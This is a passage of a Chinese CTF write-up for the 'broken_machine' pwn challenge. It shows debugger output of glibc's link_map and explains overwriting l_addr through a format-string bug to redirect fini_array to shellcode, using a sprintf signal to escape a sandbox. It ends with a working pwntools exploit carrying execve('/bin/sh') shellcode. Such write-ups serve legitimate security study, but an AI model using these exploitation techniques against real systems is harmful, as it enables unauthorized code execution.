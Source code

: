 可以看到第一个成员就是`l_addr`，也就是我们修改的部分。然后调试查看`l->l_info[DT_FINI_ARRAY]->d_un.d_ptr`和`l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val`的值，其中`DT_FINI_ARRAY = 26` `DT_FINI_ARRAYSZ = 28`，而`d_un`为一个共用体，有两个成员`d_ptr和d_val`。

```c
$5 = {
  l_addr = 16,
  l_name = 0x7fc3d13e2888 "",
  l_ld = 0x403d88,
  l_next = 0x7fc3d13e2890,
  ...
  l_info = {0x0, 0x403d88, 0x403e68, 0x403e58, 0x0, 0x403e08, 0x403e18, 0x403e98, 0x403ea8, 0x403eb8, 0x403e28, 0x403e38, 0x403d98, 0x403da8, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x403e78, 0x403e48, 0x0, 0x403e88, 0x403ed8, 0x403db8, 0x403dd8, 0x403dc8, 0x403de8, 0x0, 0x403ec8, 0x0, 0x0, 0x0, 0x0, 0x403ef8, 0x403ee8, 0x0, 0x0, 0x403ed8, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x403f08, 0x0 <repeats 25 times>, 0x403df8},
  ...
}
```

因此`l->l_info[DT_FINI_ARRAY]->d_un.d_ptr`为`0x403d78`，`l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val`为`8`，最后调用位置为`0x403d90`所指向的地址`0x80`（其实做的时候直接对比下两次不同输入的暂停地址就行了，不需要分析这么多

因此我们可以通过格式化字符串修改偏移到bss段上buf位置，就可以控制指向任意位置，直接指向shellcode位置然后顺便在sprintf中触发异常信号处理绕过沙箱getshell。（在写shellcode的时候应该注意不要在shellcode中出现\0，因为sprintf会进行0截断，要赋值0直接异或就行了）

exp:

```python
#!/usr/bin/env python3
from pwn import*
context(arch='x86_64',log_level = 'debug')


#io = remote('localhost',34657)
io = process('./broken_machine')

attach(io, 'b machine')
pause()

io.recvuntil(b'Hi there! I\'ve made a shellcode machine. Could you please input you code to test my machine? Thank you!\n')
shellcode = '''
    mov rax, 0xff978cd091969dd0
    xor rax, -1
    push rax
    mov rdi, rsp
    mov rsi, r12
    mov rdx, r12
    mov rax, r12
    mov al, 0x3b
    syscall
'''
shellcode = asm(shellcode)
io.sendline(b'%1188c%35$hn'+shellcode.ljust(0xf0, b'A')+b'%100000c'+p64(0x104a4))

io.interactive()
```
